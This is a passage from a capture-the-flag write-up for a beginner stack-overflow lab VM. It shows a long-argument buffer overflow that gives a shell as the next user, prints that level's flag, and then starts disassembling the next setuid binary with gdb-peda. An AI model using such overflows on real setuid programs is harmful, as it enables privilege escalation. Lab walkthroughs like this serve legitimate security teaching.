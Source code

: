 Ok, let's start the program like this:

```level0@kali:~$ ./levelOne BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB```

Hit enter and we are welcomed with a beautiful shell:

```sh
Buf is: BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
Key is: 0x42424242
$ id
uid=1001(level1) gid=1000(level0) groups=1000(level0)
$ cat /home/level1/level1.txt
a1e7076bbd600f4dccbc38aabcb12897
$ 
```
Good, let's **su-ing** to the next level!

## Level 2

In the home folder now we found only the complied, without the source code:

```sh
-rwsr-xr-x 1 level2 level2 15644 Feb 22 12:43 levelTwo
```

Let's grab [gdb-peda][2] for some nice gdb improvements!

```sh
git clone https://github.com/longld/peda.git ~/peda
echo "source ~/peda/peda.py" >> ~/.gdbinit
```

Open it up with gdb and start decompile form the main function

```sh
level1@kali:~$ gdb ./levelTwo 

[...]

Reading symbols from ./levelTwo...(no debugging symbols found)...done.
gdb-peda$ pd main
Dump of assembler code for function main:
   0x00001247 <+0>:	lea    ecx,[esp+0x4]
   0x0000124b <+4>:	and    esp,0xfffffff0
   0x0000124e <+7>:	push   DWORD PTR [ecx-0x4]
   0x00001251 <+10>:	push   ebp
   0x00001252 <+11>:	mov    ebp,esp
   0x00001254 <+13>:	push   esi
   0x00001255 <+14>:	push   ebx
   0x00001256 <+15>:	push   ecx
   0x00001257 <+16>:	sub    esp,0xc
   0x0000125a <+19>:	call   0x1299 <__x86.get_pc_thunk.ax>
   0x0000125f <+24>:	add    eax,0x2da1
   0x00001264 <+29>:	mov    esi,ecx
   0x00001266 <+31>:	sub    esp,0xc
   0x00001269 <+34>:	push   0x0
   0x0000126b <+36>:	mov    ebx,eax
   0x0000126d <+38>:	call   0x1070 <setuid@plt>
   0x00001272 <+43>:	add    esp,0x10
   0x00001275 <+46>:	mov    eax,DWORD PTR [esi+0x4]
   0x00001278 <+49>:	add    eax,0x4
   0x0000127b <+52>:	mov    eax,DWORD PTR [eax]
   0x0000127d <+54>:	sub    esp,0xc
   0x00001280 <+57>:	push   eax
   0x00001281 <+58>:	call   0x1207 <hello>
   0x00001286 <+63>:	add    esp,0x10
   0x00001289 <+66>:	mov    eax,0x0
```

[1]: https://www.vulnhub.com/entry/stack-overflows-for-beginners-1,290/
[2]: https://github.com/longld/peda
[3]: https://github.com/Gallopsled/pwntools
[4]: https://wiremask.eu/tools/buffer-overflow-pattern-generator/
[5]: https://twitter.com/MrMoDDoM